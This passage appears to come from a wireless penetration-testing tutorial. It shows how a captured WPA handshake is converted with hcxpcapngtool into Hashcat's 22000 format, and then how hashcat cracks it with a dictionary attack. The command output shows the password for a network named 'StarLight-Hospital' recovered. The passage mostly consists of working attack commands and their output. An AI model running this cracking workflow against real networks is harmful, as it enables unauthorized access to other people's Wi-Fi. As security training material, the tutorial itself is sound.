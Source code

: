 EAPOLs written to capfile(s): 4 (0 skipped)
</code></pre>
<p>Next, we use the <code>hcxpcapngtool</code> to convert the pcap file into a Hashcat-compatible hash format (22000) using the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ hcxpcapngtool handshake.pcap -o hash.22000

hcxpcapngtool 6.2.5 reading from handshake.pcap...

summary capture file
--------------------
file name................................: handshake.pcap
version (pcap/cap).......................: 2.4 (very basic format without any additional information)
timestamp minimum (GMT)..................: 24.01.2025 10:32:34
timestamp maximum (GMT)..................: 24.01.2025 10:32:34
used capture interfaces..................: 1
link layer header type...................: DLT_IEEE802_11 (105) very basic format without any additional information about the quality
endianness (capture system)...............: little endian
packets inside...........................: 12
ESSID (total unique).....................: 1
BEACON (total)...........................: 4
BEACON (detected on 2.4 GHz channel).....: 6 
BEACON (hcxhash2cap).....................: 4
EAPOL messages (total)...................: 8
EAPOL RSN messages.......................: 8
EAPOLTIME gap (measured maximum usec)....: 1
EAPOL ANONCE error corrections (NC)......: not detected
REPLAYCOUNT gap (measured maximum).......: 3
EAPOL M1 messages (total)................: 4
EAPOL M2 messages (total)................: 4
EAPOL pairs (total)......................: 4
EAPOL pairs (best).......................: 1
EAPOL pairs written to combi hash file...: 1 (RC checked)
EAPOL M12E2 (challenge)..................: 1

session summary
---------------
processed cap files...................: 1
</code></pre>
<p>Finally, we use hashcat to attempt cracking the hash by specifying the attack mode (-a 0 for dictionary attack), the hash type (-m 22000 for WPA/WPA2), and the wordlist to use. The command is as follows:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo hashcat -a 0 -m 22000 hash.22000 /opt/wordlist.txt --force

hashcat (v6.2.5) starting
&lt;SNIP&gt;
deae75ba0a788660e6e8c5bdf68239d5:22b46214ca56:9e8e3aa0ccc4:StarLight-Hospital:&lt;SNIP&gt;
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: hash.22000
Time.Started.....: Fri Jan 24 10:40:35 2025, (1 sec)
Time.Estimated...: Fri Jan 24 10:40:36 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/opt/wordlist.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2027 H/s (14.95ms) @ Accel:64 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 490/14344384 (0.00%)
Rejected.........: 362/490 (73.88%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1